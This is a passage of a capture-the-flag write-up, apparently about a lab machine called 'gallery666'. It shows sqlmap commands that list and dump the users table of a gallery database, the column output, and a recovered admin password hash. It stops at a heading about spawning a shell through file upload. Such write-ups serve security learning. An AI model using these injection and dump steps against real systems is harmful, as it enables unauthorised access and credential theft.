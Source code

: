 ```bash
sqlmap -r Documents/gallery666/test.req --columns -T users
```
```
Database: gallery_db
Table: users
[10 columns]
+--------------+--------------+
| Column       | Type         |
+--------------+--------------+
| avatar       | text         |
| date_added   | datetime     |
| date_updated | datetime     |
| firstname    | varchar(250) |
| id           | int(50)      |
| last_login   | datetime     |
| lastname     | varchar(250) |
| password     | text         |
| type         | tinyint(1)   |
| username     | text         |
+--------------+--------------+
```

```bash
sqlmap -r Documents/gallery666/test.req --columns -T users --dump
```


![e215fb195b6da5104468129680490b61.png](https://raw.githubusercontent.com/mor88888888/writeups/main/gallery666/_resources/e215fb195b6da5104468129680490b61.png)

**Admin hash**: a228b12a08b6527e7978cbe5d914531c
*Note: it doesn't seem that can be cracked.*

## Spawn a shell
I see that I can upload files:
